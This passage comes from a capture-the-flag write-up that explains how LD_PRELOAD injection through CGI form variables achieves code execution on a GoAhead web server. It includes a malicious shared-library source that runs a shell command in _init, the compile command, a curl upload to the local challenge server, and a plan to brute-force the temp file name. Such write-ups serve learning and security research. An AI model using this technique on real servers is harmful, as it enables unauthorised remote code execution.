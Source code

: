 ```bash
FILE_CONTENT_TYPE_upload=application/octet-stream
...
...
...
test=test
REQUEST_METHOD=POST
_=/usr/bin/env
```
As you can see, the added form variable does not have the `CGI_` prefix!! That means we can set `LD_PRELOAD` now!

## Exploit

I refer this website to create the library to use for `LD_PRELOAD`:
https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/


Our target is to read `/flag` so we just need to execute command `cat /flag`:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
system("cat /flag");
}
```
Save as `exploit.c` and compile with `gcc -fPIC -shared -o exploit.so exploit.c -nostartfiles`

Then upload the file with `curl -F upload=@exploit.so http://localhost:10218/cgi-bin/hello`
```bash
curl -F upload=@exploit.so http://localhost:10218/cgi-bin/hello
Welcome to ACTF!

...
...
FILE_FILENAME_upload=/tmp/tmp-7.tmp
HTTP_HOST=localhost:10218
AUTH_TYPE=
SERVER_ADDR=172.18.0.2
HTTP_CONTENT_TYPE=multipart/form-data; boundary=------------------------ae05eda6a7595af5
HTTP_USER_AGENT=curl/7.68.0
SHLVL=1
CONTENT_LENGTH=14860
UPLOAD_DIR=/tmp
SERVER_PROTOCOL=HTTP/1.1
SERVER_PORT=8081
SCRIPT_FILENAME=/var/www/goahead/cgi-bin/hello
REMOTE_ADDR=172.18.0.1
REMOTE_USER=
HTTP_EXPECT=100-continue
CONTENT_TYPE=multipart/form-data; boundary=------------------------ae05eda6a7595af5
REQUEST_METHOD=POST
_=/usr/bin/env
```
Can see it uploaded successfully! Now we just need to add the form data `LD_PRELOAD=/tmp/tmp-X.tmp` (Need to brute force for number X)
